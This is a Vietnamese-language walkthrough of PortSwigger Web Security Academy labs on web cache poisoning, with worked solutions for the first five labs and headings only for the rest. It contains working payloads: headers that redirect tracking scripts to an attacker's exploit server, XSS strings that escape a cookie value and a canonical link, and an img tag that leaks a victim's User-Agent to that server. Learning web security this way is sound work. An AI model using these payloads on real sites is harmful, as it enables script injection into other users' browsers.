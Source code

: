 # 1. Web cache poisoning with an unkeyed header
Nhận thấy `Host` HTTP header được reflected trong đoạn tracker script:

```
<script type="text/javascript" src="//0a67006403f76056c172df6000b30077.web-security-academy.net/resources/js/tracking.js"></script>
```
Thử thêm header `X-Forwarded-Host: abc.com` thì thấy đoạn script trở thành:
```
<script type="text/javascript" src="//abc.com/resources/js/tracking.js"></script>
```
Và server sẽ lưu cache trong thời gian 30s. Như vậy, để thực thi đoạn script `alert(document.cookie)`, ta vào exploit server và cấu hình đoạn body `alert(document.cookie)`, với header `Content-Type: application/javascript`, sau đó để path là `/resources/js/tracking.js`.

Submit request với header `X-Forwarded-Host: https://exploit-0aa1003b03e760a1c112deb4012a0067.exploit-server.net` cho đến khi kết quả được reflected trong response (khi cache hết hạn). Kết quả thành công.

# 2. Web cache poisoning with an unkeyed cookie
Website có cookie "fehost=prod-cache-01", được reflected trong response như sau:
```
<script>
    data = {
        "host":"0a6b00a5031f6272c0c895f1009600fe.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

Thử thay đổi `cookie=prod-cache-01"</script>`, submit đến khi response mới được lưu vào cache. Nhận thấy dấu nháy kép và dấu đóng mở tag được cho phép, khiến ta có thể escape javascript string và script tag.

Bắt request với Burp Repeater, thử thay đổi `cookie=prod-cache-01"}</script><script>alert(1)</script>` rồi đợi đến khi cache hết hạn và submit. Kết quả bài lab được giải.

# 3. Web cache poisoning with multiple headers
Nhận thấy khi thêm header `X-Forwarded-Scheme: http`, server sẽ trả về response như sau:
```
HTTP/1.1 302 Found
Location: https://0a64003d036f1d8cc00df4bd002f00b9.web-security-academy.net/
...
```
Như vậy server tự động redirect tới URL sử dụng protocol https. Thử thêm header `X-Forwarded-Host: abc.com`, thì header Location trở thành: `Location: https://abc.com`. Đồng thời, ta thấy 2 header `X-Forwarded-Host` và `X-Forwarded-Scheme` là unkeyed header đối với cache.

Vào exploit server, cấu hình đoạn javascript và đặt path là `/resources/js/tracking.js`. Sau đó dùng Burp Repeater cấu hình request với header:
```
GET /resources/js/tracking.js HTTP/1.1
Host: 0a64003d036f1d8cc00df4bd002f00b9.web-security-academy.net
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a4f008b03de1df6c0b5f3c5017d0029.exploit-server.net
....
```
Khi đó response thu được là:
```
HTTP/1.1 302 Found
Location: https://exploit-0a4f008b03de1df6c0b5f3c5017d0029.exploit-server.net/resources/js/tracking.js
....
```
Khi browser của nạn nhân load file `/resources/js/tracking.js`, thì file tracking.js trong exploit server (thực thi lệnh alert) sẽ được load thay vì file tracking.js của server chứa lỗ hổng. Thực hiện gửi request đến khi response được lưu vào cache. Bài lab được giải thành công.

# 4. Targeted web cache poisoning using an unknown header
Trong bài lab này, vẫn có chức năng tracking bằng javascript như trước. Tuy nhiên ta không thể exploit bằng cách sử dụng header `X-Forwarded-Host` và `X-Forwarded-Scheme`.

Sử dụng extension "Param Miner" của BurpSuite, ta phát hiện domain name của tracking script có thể bị thay đổi sử dụng header `X-Host`. Thêm header `X-Host: abc.com`, nhận thấy đoạn script trở thành:
```
<script type="text/javascript" src="//abc.com/resources/js/tracking.js"></script>
```

Như vậy ta đã tìm được cách inject mã độc vào response. Trong response có header `Vary: User-Agent`, là cache sẽ được trả về cho user với User-Agent tương ứng. Vậy tiếp theo ta cần xác định User-Agent của victim user.

Trong chức năng comment cho phép comment chứa HTML code. Ta submit comment với nội dung:
```
<img src="https://exploit-0ac700b8049a5594c1d1de6d011a003c.exploit-server.net/?data=useragent">
```
Vào Access Log của Exploit server, ta lấy được User-Agent của victim:
```
03:25:46 +0000 "GET /data=useragent HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119 Safari/537.36"
```
Vậy, ta cấu hình request với các headers:
```
GET / HTTP/1.1
Host: 0a210087044e5550c155dfef009b007e.h1-web-security-academy.net
X-Host: exploit-0ac700b8049a5594c1d1de6d011a003c.exploit-server.net
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119
...
```
Submit request đến khi đảm bảo response được lưu vào trong cache. Kết quả, bài lab được giải.

# 5. Web cache poisoning via an unkeyed query string
Nhận thấy trong website có một canonical link tag reflect lại domain của wesbite. Thử gửi request `GET /?x=abc`, nhận thấy trong response có header `X-Cache: hit`. Như vậy, query string là một unkeyed field trong cache.

Submit request `GET /?x=abc` đến khi response được lưu vào trong cache. Ta thấy thẻ canonical link trở thành
```
<link rel="canonical" href='//0a0100de03c5e4ebc00631e5008b0038.web-security-academy.net/?x=abc'/>
```

Như vậy, ta có thể escape string và HTML để inject Javascript code. Gửi request `GET /?x='/><script>alert(1)</script>` đến khi response được lưu vào trong cache, kết quả thành công.

# 6. Web cache poisoning via an unkeyed query parameter

# 7. Parameter cloaking

# 8. Web cache poisoning via a fat GET request

# 9. URL normalization

# 10. Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

# 11. Combining web cache poisoning vulnerabilities

# 12. Cache key injection

# 13. Internal cache poisoning

